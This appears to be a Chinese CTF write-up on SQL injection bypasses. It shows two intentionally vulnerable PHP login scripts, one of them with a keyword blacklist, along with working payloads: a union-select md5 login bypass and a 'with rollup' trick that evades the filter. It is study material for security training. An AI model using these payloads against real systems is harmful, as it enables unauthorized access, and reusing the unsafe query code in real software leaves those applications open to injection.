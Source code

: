 ### SQL注入绕过

#### 例题1
```php
<?php
if($_POST[user] && $_POST[pass]) {
	//省略了mysql连接过程
    $user = $_POST[user];
    $pass = md5($_POST[pass]);

    $sql = "select pw from php where user='$user'";
    $query = mysql_query($sql);
    if (!$query) {
        printf("Error: %s\n", mysql_error($conn));
        exit();
    }
    $row = mysql_fetch_array($query, MYSQL_ASSOC);
    
    if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
        echo "<p>Logged in! Key:************** </p>";
    }
    else {
        echo("<p>Log in failure!</p>");
    }
}
?>
```
#### 分析
该文件接受user和pass两个参数，通过构造合适的sql语句进行SQL注入成功登录即可获得key。代码中没有过滤任何SQL语句，因此可以有多种方法进行payload的构造。

#### payload
```
user=' union select md5(1)#
pass=1 
```

#### 例题2
>题目地址:http://www.shiyanbar.com/ctf/1940
#### 代码
```php
<?php
error_reporting(0);
function AttackFilter($StrKey,$StrValue,$ArrReq){  
    if (is_array($StrValue)){
        $StrValue=implode($StrValue);
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){   
        print "水可载舟，亦可赛艇！";
        exit();
    }
}
//执行的开始部分
$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
foreach($_POST as $key=>$value){ 
    AttackFilter($key,$value,$filter);
}

//连接语句省略
$sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
$query = mysql_query($sql); 
if (mysql_num_rows($query) == 1) { 
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
	print "一颗赛艇！";
}
mysql_close($con);
?>
```
#### 分析
该PHP文件接收两个参数，uname和pwd。文件中包含了对一些SQL关键字和操作符的过滤，没有限制limit,with,rollup,offset等关键字。

根据代码中的条件，只有查询结果中只有1行，且输入密码必须和查询的密码对应才可以得到flag。

这里可以借助with rollup操作来实现SQL注入，该关键字可以将行中每一列的结果进行汇总，如果是数字，得到数字的和；如果是非数字字符串，得到0；

#### payload
```html
uname=1' or 1=1 group by pwd with rollup limit 1 offset 2#
pwd=
<!--pwd为空，uname的最终显示起始行是试出来的-->
<!--payload解释:得到所有用户名和密码，将密码汇总，选出null对应的行-->
```

#### 参考文章
wihh rollup
>https://www.cnblogs.com/phpper/p/9384614.html